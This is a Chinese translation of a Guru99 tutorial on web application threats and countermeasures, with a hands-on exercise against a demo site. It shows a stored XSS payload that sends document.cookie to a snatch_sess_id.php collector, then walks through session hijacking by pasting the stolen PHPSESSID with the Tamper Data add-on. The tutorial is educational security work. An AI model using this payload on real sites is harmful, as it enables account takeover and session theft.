# 如何破解网站：在线示例

> 原文： [https://www.guru99.com/how-to-hack-website.html](https://www.guru99.com/how-to-hack-website.html)

访问互联网的人数比以往任何时候都要多。 这促使许多组织开发基于 Web 的应用程序，用户可以在线使用这些应用程序与组织进行交互。 可以利用 Web 应用程序编写不良的代码来获得对敏感数据和 Web 服务器的未经授权的访问。

在本文中，我们将向您介绍 **Web 应用程序黑客技术，以及可以用来防范此类攻击的对策**。

## **本教程涵盖的主题**

*   [什么是 Web 应用程序？ 什么是网络威胁？](#1)
*   [如何保护您的网站免受黑客攻击？](#2)
*   [黑客活动：黑客网站！](#3)

## 什么是 Web 应用程序？ 什么是网络威胁？

Web 应用程序（又称网站）是基于客户端-服务器模型的应用程序。 服务器提供数据库访问和业务逻辑。 它托管在 Web 服务器上。 客户端应用程序在客户端 Web 浏览器上运行。 Web 应用程序通常使用 Java，C＃和 VB.Net，PHP，ColdFusion 标记语言等语言编写。Web 应用程序中使用的数据库引擎包括 MySQL，MS [SQL](/sql.html) Server，PostgreSQL，SQLite， 等等

大多数 Web 应用程序都托管在可通过 Internet 访问的公共服务器上。 由于易于访问，这使它们容易受到攻击。 以下是常见的 Web 应用程序威胁。

*   **SQL 注入** –这种威胁的目标可能是绕过登录算法，破坏数据等。
*   **拒绝服务攻击** –此威胁的目标可能是拒绝合法用户访问资源
*   **跨站点脚本 XSS** –这种威胁的目标可能是注入可以在客户端浏览器上执行的代码。
*   **Cookie /会话中毒** –此威胁的目标是攻击者修改 Co​​okie /会话数据以获得未经授权的访问。
*   **表单篡改** –此威胁的目的是修改电子商务应用程序中的表单数据（例如价格），以便攻击者可以降低的价格获取商品。
*   **代码注入** –这种威胁的目标是注入可以在服务器上执行的代码，例如 PHP，Python 等。 该代码可以安装后门，显示敏感信息等。
*   **污损** –此威胁的目的是修改网站上显示的页面，并将所有页面请求重定向到包含攻击者消息的单个页面。

## 如何保护您的网站免受黑客攻击？

组织可以采用以下策略来保护自己免受 Web 服务器攻击。

*   **SQL Injection** -在将用户参数提交给数据库进行处理之前对其进行清理和验证可以帮助减少通过 SQL Injection 受到攻击的机会。 数据库引擎（例如 MS SQL Server，MySQL 等）支持参数和准备好的语句。 它们比传统的 SQL 语句安全得多
*   **拒绝服务攻击–如果攻击是简单的 DoS，则**防火墙可用于阻止来自可疑 IP 地址的流量。 正确配置网络和入侵检测系统也可以帮助减少 DoS 攻击成功的机会。
*   **跨站点脚本–** 验证和清除标头，通过 URL 传递的参数，表单参数和隐藏值可以帮助减少 XSS 攻击。
*   **Cookie /会话中毒** –可以通过加密 cookie 的内容，在一段时间后使 cookie 超时，将 cookie 与用于创建它们的客户端 IP 地址相关联来防止这种情况。
*   **模板回火–** 可以通过在处理用户输入之前对其进行验证并进行验证来防止这种情况。
*   **代码注入-**可以通过将所有参数视为数据而非可执行代码来防止。 可以使用“消毒和验证”来实现此目的。
*   **损坏–** 良好的 Web 应用程序开发安全策略应确保它密封了访问 Web 服务器的常用漏洞。 开发 Web 应用程序时，这可以是对操作系统，Web 服务器软件和最佳安全性实践的正确配置。

## 黑客活动：黑客网站

在这种实际情况下，我们将劫持位于 [www.techpanda.org](http://www.techpanda.org/) 的 Web 应用程序的用户会话。 我们将使用跨站点脚本来读取 cookie 会话 ID，然后使用它来模拟合法的用户会话。

假定攻击者可以访问 Web 应用程序，并且他想劫持使用同一应用程序的其他用户的会话。 该攻击的目标可能是假设攻击者的访问帐户受到限制，从而获得对 Web 应用程序的管理员访问权限。

**使用入门**

*   打开 [http://www.techpanda.org/](http://www.techpanda.org/)
*   出于实践目的，强烈建议使用 SQL Injection 获得访问权限。 有关如何执行此操作的更多信息，请参见此[文章](/learn-sql-injection-with-practical-example.html)。
*   登录电子邮件为，此电子邮件地址已受到防止垃圾邮件机器人的保护。 您需要启用 JavaScript 才能查看它。 ，密码为 Password2010
*   如果您已成功登录，则将获得以下信息中心



*   点击添加新联系人
*   输入以下内容作为名字

< a href =＃onclick = \“ document.location = \'http：//techpanda.org/snatch_sess_id.php？c = \'+ escape \（document.cookie \）\; \” >暗 < / a >

**此处，**

**上面的代码使用 JavaScript** 。 **它将添加带有 onclick 事件的超链接**。 当毫无戒心的用户单击链接时，事件将检索 [PHP](/php-tutorials.html) Cookie 会话 ID，并将其与 URL 中的会话 ID 一起发送到 snatch_sess_id.php 页面。



*   输入其余详细信息，如下所示
*   点击保存更改



*   现在，您的仪表盘将如下图所示



*   由于跨站点脚本代码存储在数据库中，因此每次具有访问权限的用户登录时都会加载该代码
*   假设管理员登录并单击显示为 Dark 的超链接
*   他/她将获得在 URL 中显示会话 ID 的窗口



***注意*** *：脚本可能会将值发送到存储 PHPSESSID 的某个远程服务器，然后用户重定向回网站，就好像什么都没发生。*

***注意*** *：您获得的值可能与本教程中的值不同，但概念相同*

## *使用 Firefox 和篡改数据插件的会话模拟*

下面的流程图显示了完成此练习必须采取的步骤。



*   您需要此部分的 Firefox Web 浏览器和篡改数据附加组件
*   打开 Firefox 并安装添加，如下图所示





*   搜索篡改数据，然后单击安装，如上所示

*   单击接受并安装…





*   安装完成后，单击立即重新启动
*   如果未显示，请在 Firefox 中启用菜单栏



*   单击工具菜单，然后选择篡改数据，如下所示



*   您将获得以下窗口。 注意：如果 Windows 不为空，请单击清除按钮



*   单击开始篡改菜单
*   切换回 Firefox Web 浏览器，输入 [http://www.techpanda.org/dashboard.php](http://www.techpanda.org/dashboard.php) ，然后按 Enter 键加载页面
*   您将从篡改数据中看到以下弹出窗口



*   弹出窗口具有三（3）个选项。 **篡改选项允许您在将 HTTP 标头信息提交到服务器**之前对其进行修改。
*   点击它
*   您将获得以下窗口



*   复制您从攻击 URL 复制的 PHP 会话 ID，并将其粘贴在等号后。 您的价值现在应该像这样

PHPSESSID = 2DVLTIPP2N8LDBN11B2RA76LM2

*   点击确定按钮
*   您将再次获得“篡改数据”弹出窗口



*   取消选中要求继续篡改的复选框。
*   完成后单击提交按钮
*   您应该能够看到如下所示的仪表板



***注意*** *：我们没有登录，我们使用跨站点脚本检索的 PHPSESSID 值模拟了登录会话*

## 摘要

*   Web 应用程序基于服务器-客户端模型。 客户端使用 Web 浏览器访问服务器上的资源。
*   Web 应用程序通常可以通过 Internet 访问。 这使他们容易受到攻击。
*   Web 应用程序威胁包括 SQL 注入，代码注入，XSS，污损，Cookie 中毒等。
*   开发 Web 应用程序时，好的安全策略可以帮助确保它们的安全性。